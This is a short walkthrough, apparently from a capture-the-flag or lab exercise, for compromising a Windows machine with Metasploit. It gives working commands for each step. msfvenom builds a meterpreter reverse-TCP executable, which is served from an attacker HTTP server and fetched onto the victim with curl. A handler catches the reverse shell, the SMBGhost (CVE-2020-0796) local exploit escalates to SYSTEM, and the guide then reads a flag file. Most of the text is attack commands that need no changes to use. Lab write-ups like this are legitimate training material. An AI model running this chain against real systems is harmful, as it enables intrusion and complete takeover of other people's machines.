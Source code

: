 # Guide

Before you move to the exploit, make sure you allow the ports 8080 and 443 in the firewall of your attacker machine.

1 - On your */home/[user]/* of your attacker machine, do :

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[HOST_IP] LPORT=443 -a x64 --platform Windows -f exe -o meter64.exe
```

2 - Launch a HTTP server on your attacker machine :

```
python3 -m http.server 8080
```

Don't forget to close it after using it.

3 - Curl the file *meter64.exe* on your victim machine :

```
curl http://[HOST_IP]:8080/meter64.exe --output meter64.exe
```

4 - On your attacker machine, do :

```
msfconsole -q -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set LHOST [HOST_IP];set LPORT 443;exploit;"
```

5 - On your victim machine, execute *meter64.exe* to open a reverse shell on your attacker machine :

```
meter64.exe
```

6 - On your attacker machine, in the reverse shell, do :

```
getuid
```

You can see you are the default user you are connected to on the victim machine.

7 - On your attacker machine, in the reverse shell, do :

```
background
```

It will drop out the meterpreter session.

8 - On your attacker machine, do :

```
search exploit/windows/local/cve
```

It will display some exploits.

```
use exploit/windows/local/cve_2020_0796_smbghost
```

This is the cve that we want to exploit.

```
set SESSION 1
set LHOST [HOST_IP]
set LPORT 8080
```

It will set options.

To verify your options :

```
show options
```

To exploit :

```
exploit
```

It will open a reverse shell. Then, do :

```
getuid
```

You can see you are logged on as the system !

Now, you can navigate to the admin documents to have the flag :

```
cd ..
cd ..
cd Users
cd adminUser
cd Documents
cat flag2.txt.txt
```

Congratulations !
